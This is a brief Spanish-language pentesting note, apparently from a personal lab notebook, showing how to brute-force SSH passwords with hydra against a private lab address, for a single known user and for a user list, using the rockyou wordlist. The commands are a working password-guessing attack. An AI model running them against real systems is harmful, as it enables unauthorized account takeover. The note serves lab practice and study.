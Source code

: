 Supongamos que conocemos un usuario de sistema, por ejemplo **balutin**, pero no conocemos su contraseña. Haciendo uso de `hydra`, podemos hacer fuerza bruta:

![[Pasted image 20250715191028.png]]

```
hydra -l balutin -P /usr/share/SecLists/rockyou.txt ssh://172.17.0.3 -t 64
```

![[Pasted image 20250715191109.png]]

![[Pasted image 20250715191230.png]]

En caso de que tengamos una lista de usuarios podemos ejecutar el comando de la siguiente manera:

```
hydra -L users.txt -P /usr/share/SecLists/rockyou.txt ssh://172.17.0.3 -t 64
```

